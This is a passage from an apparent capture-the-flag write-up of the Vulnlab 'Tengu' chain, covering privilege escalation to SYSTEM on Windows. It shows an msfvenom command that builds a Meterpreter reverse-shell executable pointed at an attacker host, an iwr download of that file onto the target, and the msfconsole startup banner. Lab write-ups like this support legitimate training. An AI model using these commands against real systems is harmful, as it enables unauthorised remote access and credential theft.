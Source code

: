 ```c

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to SYSTEM

For the sake of `dumping hashes` after getting privileges as `NT AUTHORITY\SYSTEM`, I fired up `Metasploit`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/serve]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.8.0.2 LPORT=9696 -f exe -o a.exe      
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: a.exe
```

```c
PS C:\temp> iwr 10.8.0.2/a.exe -o a.exe
iwr 10.8.0.2/a.exe -o a.exe
```

```c
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Display the Framework log using the log command, learn 
more with help log
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.3.55-dev                          ]
+ -- --=[ 2397 exploits - 1235 auxiliary - 422 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

```